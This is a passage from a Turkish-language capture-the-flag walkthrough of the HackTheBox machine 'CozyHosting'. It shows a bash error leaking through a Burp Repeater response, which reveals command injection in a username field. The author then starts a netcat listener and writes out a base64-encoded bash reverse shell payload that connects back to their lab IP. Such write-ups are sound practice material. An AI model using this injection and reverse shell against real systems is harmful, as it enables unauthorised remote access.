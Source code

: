 Bu sayfada ++right-button++ ve `Send to Repeater` ile bilgileri Burp Repeater sekmesine gönderdim. Ardından Burp Repeater sekmesine geçiş yaptım ve bu isteği `Send` ile tekrar gönderdim. Cevap olarak aşağıdaki bilgiler geldi:

```text title="Response"
HTTP/1.1 302
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 14 Jan 2024 08:44:00 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching `''/bin/bash: -c: line 2: syntax error: unexpected end of file
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

Location kısmında Bash hata mesajı var! Eğer `username` kısmına bir reverse shell kodu yerleştirirsek işimizi görebilir. Bunun için öncesinde aşağıdaki komut ile yerel makineme ait IP adresimi öğrendim:

```bash
ip a
```

```text title="Output" hl_lines="5"
...SNIP...

5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.45/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::102b/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::3249:9cef:8cb6:ff8d/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
```

Ardından Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Payload olarak aşağıdaki kodu kullandım. Bu payload aynı zamanda Base64 ile kodlanmıştır:

```bash
echo "bash -i >&/dev/tcp/10.10.14.45/4444 0>&1" | base64 -w 0
```

```text title="Output"
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK
```
